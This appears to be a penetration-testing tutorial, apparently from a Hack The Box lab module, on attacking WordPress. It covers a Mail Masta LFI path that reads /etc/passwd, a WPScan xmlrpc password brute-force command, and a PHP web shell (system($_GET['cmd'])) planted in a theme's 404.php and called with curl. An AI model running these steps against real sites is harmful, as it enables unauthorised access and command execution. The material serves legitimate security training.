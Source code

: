 # Exploiting a Vulnerable Plugin
## Leveraging WPScan Results (Example Scenario)
After running a scan, the report generated by WPScan tells us that the website uses an older version of WordPress (5.3.2) and an outdated theme called `Twenty Twenty`. WPScan identified two vulnerable plugins, `Mail Masta 1.0` and `Google Review Slider`. 

This version of the `Mail Masta` plugin is known to be vulnerable to SQL Injection as well as Local File Inclusion (LFI). The report output also contains URLs to PoCs, which provide information on how to exploit these vulnerabilities.

Let's verify if the LFI can be exploited based on this exploit-db [report](https://www.exploit-db.com/exploits/40290/). The exploit states that any unauthenticated user can read local files through the path: `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`.
# Attacking WordPress Users
## WordPress User Bruteforce
WPScan can be used to brute force usernames and passwords.
### Example Scenario
The scan report returned three users registered on the website: `admin`, `roger`, and `david`. 

The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. 

The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`. 
> The `xmlrpc` method is preferred as it is faster.
#### WPscan - XMLRPC
```bash
wpscan --password-attack xmlrpc -t 20 -U admin, david -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.com
```
# Remote Code Execution (RCE) via the Theme Editor
## Attacking the WordPress Backend
With administrative access to WordPress, we can modify the PHP source code to execute system commands. 

To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. 

Click on `Appearance` on the side panel and select `Theme Editor`. 
- This page will allow us to edit the PHP source code directly. 
- We should select an inactive theme in order to avoid corrupting the main theme.
### Theme Editor
![WordPress theme editor showing Transportex stylesheet with theme details and code.](https://academy.hackthebox.com/storage/modules/17/Theme-Editor.png)

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.
### Selecting Theme
![WordPress theme editor showing Twenty Seventeen stylesheet with theme details and code.](https://academy.hackthebox.com/storage/modules/17/Twenty-Seventeen.png)

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.
### Twenty Seventeen Theme - 404.php
```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
...
```
- The above code should allow us to execute commands via the GET parameter `cmd`

In this example, we modified the source code of the `404.php` page and added a new function called `system()`. This function will allow us to directly execute operating system commands by sending a GET request and appending the `cmd` parameter to the end of the URL after a question mark `?` and specifying an operating system command. The modified URL should look like this `404.php?cmd=id`.

We can validate that we have achieved RCE by entering the URL into the web browser or issuing the `cURL` request below.
```bash
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```
- Use `-s` instead of `-X GET` if `-X` doesnt work
- Or visit the URL